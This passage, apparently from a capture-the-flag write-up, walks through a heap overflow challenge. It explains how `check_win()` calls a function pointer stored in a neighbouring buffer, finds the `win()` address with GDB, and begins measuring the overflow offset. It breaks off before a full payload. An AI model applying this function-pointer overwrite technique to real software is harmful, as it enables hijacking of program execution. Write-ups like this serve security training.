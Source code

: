 ```
[input_data buffer (5 bytes)] [heap metadata] [x buffer (5 bytes)] [heap metadata]
```

### The Win Condition

The `check_win()` function contains the exploitation target:

```c
void check_win() { 
    ((void (*)())*(int*)x)(); 
}
```

**Breaking down this complex expression:**
1. `*(int*)x` - Dereferences `x` as an integer pointer, reading 4 bytes from the buffer pointed to by `x`
2. `(void (*)())` - Casts the integer value to a function pointer (function taking no args, returning void)
3. `()` - Calls the function at that address

**The Goal:** We need to overwrite the contents of the buffer pointed to by `x` with the address of the `win()` function.

## Exploitation Strategy

### Step 1: Find the Address of win()

Using GDB to find the `win()` function address:

```bash
gdb ./chall
(gdb) disass win
```

Output shows: `win = 0x00000000004011a0`

### Step 2: Understanding Endianness

**Why endianness matters:**
- x86-64 architecture uses little-endian byte ordering
- Multi-byte values are stored with the least significant byte first
- When we write the address as raw bytes, we must use little-endian format

**Address conversion:**
- Original: `0x00000000004011a0`
- Little-endian bytes: `\xa0\x11\x40\x00\x00\x00\x00\x00`

### Step 3: Calculate the Overflow Offset

Using the program's heap printing functionality:

```bash
# Run the program and select option 1 to print heap
1. Print Heap
[*]   Address   ->   Value   
+-------------+-----------+
[*]   0x1e462b0  ->   pico
+-------------+-----------+
[*]   0x1e462d0  ->   bico
```
